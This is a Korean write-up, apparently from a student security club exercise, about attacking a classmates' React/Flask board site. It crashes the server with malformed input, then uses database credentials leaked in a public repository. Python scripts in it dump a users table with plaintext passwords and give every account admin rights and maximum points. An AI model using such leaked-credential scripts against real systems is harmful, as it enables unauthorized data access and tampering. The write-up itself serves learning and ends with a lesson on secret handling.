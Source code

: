 # SHA-July-3에 대한 보고서

SHA-July-3는 ChatGPT를 통해 구현한 웹사이트로, 글 및 댓글 작성 기능이 있는 게시판을 구현하는 것이 목표였다.
사용한 기술 스택은 프론트엔드에 React, 백엔드에 Flask를 사용했다.
사이트 구현 과정에서 유저 authentication 기능에서 문제가 생겼고 (백엔드에서 토큰을 생성하는 데에 문제가 있었음) 결국 완성되지 못했다.
사이트를 출시할 당시 [server.py](https://github.com/UOS-SHA/SHA-July-3/blob/master/flask-server/server.py)는 동일한 유저명을 갖는 서로 다른 SQL 쿼리에 대해 에러를 처리하지 못해 서버가 계속 다운되었다.

# SHA-July-2에 대한 보고서

## 서버 다운

처음에는 admin 페이지에 접속하는 공략법을 찾지 못해 서버 자체를 다운시키는 것에 집중하였다.

![image](https://github.com/user-attachments/assets/d323bf2d-c2f4-410d-9753-9d9012b98e2d)

첫 시도는 가입 시 긴 유저명을 넣는 것이었다. 서버 DB에서 유저명 필드는 `varchar(50)`으로 정의되어 있어 이 부분에서 오류가 발생해 서버가 다운된 것으로 보인다.

![image](https://github.com/user-attachments/assets/77744dc8-903d-450c-aa3b-d09312eedbcd)

두 번째 시도는 포인트에 소수점 숫자를 넣는 것이었다. 아마 서버 DB에서 포인트 필드가 `int`로 정의되어 있어 발생하는 오류로 보인다.

## 서버 침입

그러던 중, [SHA-July-2의 레포지토리](https://github.com/UOS-SHA/SHA-July-2/blob/main/server/Server.py)에서 DB 주소와 유저명, 비밀번호가 노출되어 있는 것을 발견했다.
다음의 파이썬 스크립트를 작성해 서버에 `SELECT` 쿼리를 요청해보기로 했다.

```py
import mysql.connector

db = mysql.connector.connect(
    host="...",
    user="admin",
    password="...",
    database="database_login"
)

if __name__ == "__main__":
    cursor = db.cursor()
    cursor.execute("SELECT * FROM users;")

    for user in cursor.fetchall():
        for column in user:
            print(column, end=' ')
        print()
```

출력 결과는 다음과 같았다.

```
1234 1234 (...) 502 user
admin adminadminadminadminadmin (...) 0 admin
admin'-- 1234 (...) 900 user
```

여기서 두 번째 열을 평문으로 저장된 비밀번호로 추측하고 로그인을 시도했다.

![image](https://github.com/user-attachments/assets/93b27130-ceb4-4b38-b864-e8ffdc7efd2c)

로그인에 성공한 후, 위의 스크립트를 확장해 모든 유저에게 admin 권한을 주고 포인트를 int형 최댓값으로 설정하게끔 만들었다.

```py
import mysql.connector

db = mysql.connector.connect(
    host="...",
    user="admin",
    password="...",
    database="database_login"
)

if __name__ == "__main__":
    cursor = db.cursor()

    cursor.execute("UPDATE users SET role='admin';")
    cursor.execute("UPDATE users SET point=2147483647;")

    cursor.execute("SELECT username, password, point, role FROM users;")

    for user in cursor.fetchall():
        for column in user:
            print(column, end=' ')
        print()

    cursor.execute("DESCRIBE users;")
    for column in cursor.fetchall():
        print(column)

    db.commit()
```

![image](https://github.com/user-attachments/assets/9016d559-9010-4167-8f31-13a79c27fa01)

## 배운 점

인터넷에서 백엔드 개발과 관련된 강좌나 영상을 볼 때, DB의 유저명과 비밀번호 등은 서버의 환경변수로 저장하라는 이야기를 많이 들었다.
실제로 외부에 노출된 DB 관련 credential을 통해 서비스에 영향을 끼친다는 점을 체험하고 나니 환경변수 사용의 중요성을 다시금 깨닫게 되었다.

